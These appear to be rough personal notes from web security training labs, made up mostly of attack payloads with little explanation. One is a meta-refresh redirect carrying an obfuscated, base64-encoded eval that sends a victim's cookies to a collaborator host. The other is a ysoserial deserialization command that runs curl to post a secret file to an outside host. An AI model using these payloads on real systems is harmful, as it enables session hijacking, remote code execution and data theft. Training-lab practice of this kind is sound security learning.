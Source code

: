 # Cross-site scripting (XSS)


if we found a xss attack at the search bar we have the exploit server:
- at the exploit server we can use this piece of code <meta> for redirect the victim to our malicius code

```
<meta http-equiv="refresh" content='0; URL=https://0a6e002b0401a0fcc0fa2e05001e0054.web-security-academy.net/?SearchTerm=aa","fd8xsw5l":eval(atob("ZG9jdW1lbnQubG9jYXRpb24gPSAneTY1OHcyZWtvYjRidXkxYjZuOWZ6ZnJyNmljODB4LmJ1cnBjb2xsYWJvcmF0b3IubmV0L1N0ZWFsZXIucGhwP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZQ=="))}//' />




<meta http-equiv="refresh" content='0; URL=url/?cookies=document.cookiesxaxa' />
```

nw7fl9oiqg11oh089tjm




java -jar ysoseriar.jar CommonsCollections7 'curl -d @/home/carlos/secret k3of2usea0s8kzkwsqnme9bj2a83ws.burpcolla
borator.net' | gzip|base64

and the results url encoded
